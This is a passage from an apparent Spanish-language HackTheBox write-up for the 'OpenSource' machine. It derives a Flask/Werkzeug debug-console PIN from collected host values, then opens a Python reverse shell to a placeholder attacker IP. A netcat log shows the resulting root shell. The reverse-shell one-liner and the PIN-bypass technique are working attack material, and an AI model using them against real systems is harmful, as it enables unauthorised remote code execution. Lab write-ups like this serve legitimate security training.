 Después de recopilar toda esta información, nuestro script quedaría de esta manera:
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'root',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892359',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'ec9352f3-f38c-4d69-ad41-55fe71f295ba13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799'  # get_machine_id(), /etc/machine-id
]
```

Ejecuta el script, deberías obtener un número que sería el **PIN** que para entrar a la consola interactiva:
```bash
python PIN_discover.py
135-767-720
```

Copia el **PIN** e intenta entrar a la consola:

<p align="center">
<img src="/assets/images/htb-writeup-opensource/Captura24.png">
</p>

Hemos ganado acceso a la consola, ya solo es cuestión de obtener una **shell**.

Abre una **netcat** y aplica la siguiente **Reverse Shell**:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Tu_IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Observa el resultado:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.164] 35636
/app # whoami  
whoami
root
```
Haz un tratamiento de la **TTY** y continua.

